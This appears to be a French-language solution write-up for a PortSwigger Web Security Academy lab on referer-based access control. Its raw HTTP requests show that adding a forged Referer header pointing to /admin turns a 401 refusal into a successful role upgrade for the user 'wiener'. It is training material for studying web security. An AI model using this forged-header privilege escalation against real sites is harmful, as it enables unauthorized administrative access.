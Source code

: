 # Lab

https://portswigger.net/web-security/access-control/lab-referer-based-access-control

## Solution

La fonctionnalité d'upgrade le rôle d'un utilisateur est protégée par un contrôle d'accès basé sur le referer.

```http
GET /admin-roles?username=wiener&action=upgrade HTTP/2
Host: 0a090005031b05d08108cb9c00fb0014.web-security-academy.net
Cookie: session=L8pMSsbVcjjqdlnLNWGR64QmspLnjhwG
Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
```

```http
HTTP/2 401 Unauthorized
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 14

"Unauthorized"
```

En revanche, si on renseigne le referer avec l'URL du lab et l'endpoint `/admin` on a accès à la fonctionnalité.

```http
GET /admin-roles?username=wiener&action=upgrade HTTP/2
Host: 0a090005031b05d08108cb9c00fb0014.web-security-academy.net
Cookie: session=L8pMSsbVcjjqdlnLNWGR64QmspLnjhwG
Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a090005031b05d08108cb9c00fb0014.web-security-academy.net/admin
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
```